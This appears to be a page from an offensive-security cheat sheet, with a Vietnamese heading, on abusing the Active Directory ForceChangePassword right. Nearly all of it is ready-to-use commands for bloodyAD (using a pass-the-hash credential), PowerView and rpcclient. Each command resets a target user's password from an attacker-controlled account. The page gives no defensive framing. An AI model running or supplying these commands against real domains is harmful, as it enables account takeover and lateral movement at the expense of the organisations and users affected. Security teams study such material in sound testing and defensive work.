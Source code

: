 # ForceChangePassword

Đổi mật khẩu người dùng

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <attackeruser> -p :<hash> set password <targetuser> <newpassword>
```

{% endcode %}

#### Windows

```
$NewPassword = ConvertTo-SecureString '<newpassword>' -AsPlainText -Force
Set-DomainUserPassword -Identity '<targetuser>' -AccountPassword $NewPassword
```

#### Linux

{% code overflow="wrap" %}

```
rpcclient -U '<attackeruser>%<password>' -W <domain> -c "setuserinfo2 <targetuser> 23 <newpassword>"
```

{% endcode %}
